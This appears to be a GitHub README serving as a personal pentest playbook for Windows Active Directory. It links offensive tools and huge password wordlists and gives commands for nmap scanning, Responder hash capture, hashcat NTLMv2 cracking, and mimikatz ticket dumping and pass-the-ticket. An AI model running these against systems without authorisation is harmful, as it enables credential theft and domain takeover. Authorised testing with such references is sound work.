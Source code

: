 # Gunnajs-Playbook
How to pentest like a Gunnaj

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### mimikatz
https://github.com/ParrotSec/mimikatz
### Responder
https://github.com/lgandx/Responder

### breach-parse
https://github.com/hmaverickadams/breach-parse

## Wordlists bby
### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (14.6 GB)


### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Rockyou2021

https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)

### Big ass p-list

https://download.g0tmi1k.com/wordlists/large/b0n3z-wordlist-sorted-something.tar.gz (165 GB)

# VEV

## Nmap
#### Scan for Version, OS-type and all open ports to a file
```bash
sudo nmap -sV -O -p- IP/mask > file.txt
```
## linWinPwn 
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password>
```
## SMB VEV
### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<domain.com>
```
### Unmount share
```bash
sudo umount.cifs <./folder>
```
### Search for keywords in files
```bash
grep -i <keyword> *
```

## Zero Logon
* in the making 
## Responder
### Kickstart responder
```bash
responder -I eth0 -v
```
### Crack NTLMv2 hashes
```bash
hashcat64.exe -m 5600 ntlm-hashes.txt <passlist.txt> -o cracked.txt
```

## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
